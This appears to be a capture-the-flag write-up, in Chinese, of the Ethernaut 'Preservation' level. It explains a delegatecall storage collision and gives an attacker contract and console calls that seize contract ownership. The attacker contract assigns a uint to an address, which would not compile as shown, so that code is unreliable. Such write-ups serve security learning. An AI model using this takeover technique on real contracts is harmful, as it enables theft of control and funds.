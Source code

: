 # **Level 16 -- Preservation**
## **Contract to hack**
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
`````` 
---
## ***Objectives***
* get the owner of the `preservation` contract
---
## ***Thought Process***
首先观察`preservation`合约,其中的数据存储结构总共占用了4个slot
``` solidity
    address public timeZone1Library;  // slot 0
    address public timeZone2Library;    // slot 1
    address public owner;               // slot 2
    uint storedTime;                    // slot 3
```
在构造函数中初始化了两个`timeZoneLibrary`的地址和owner, 此外还有两个方法`setFirstTime`和`setSecondTime`, 都是用了delegatecall去调用`LibraryContract`名为`setTime`的方法.

在`LibraryContract`中仅有`storedTime`一个参数，占用了slot 0.

`delegatecall`是一种低级函数调用，当合约A用`delegatecall`调用合约B的方法时，表示允许合约B修改A的对应存储，因此当调用`LibraryContract`中`setTime`时，B修改了A中的slot0，也就是`timeZone1Library`

综上所述，我们可以写一个修改了内容`setTime`恶意合约，把合约地址存储到slot0中，再调用`setFirstTime`调用恶意合约修改掉owner。


---
## ***Solution***
1.写一个恶意合约 然后部署
``` ts
contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
 
  // set the time for timezone 1
  function setTime(uint _timeStamp) public {
        owner = _timeStamp;
  }

}
```
2. > await contract.setSecondTime(contractAddress)
3. > await contract.setFirstTime(owner.address)



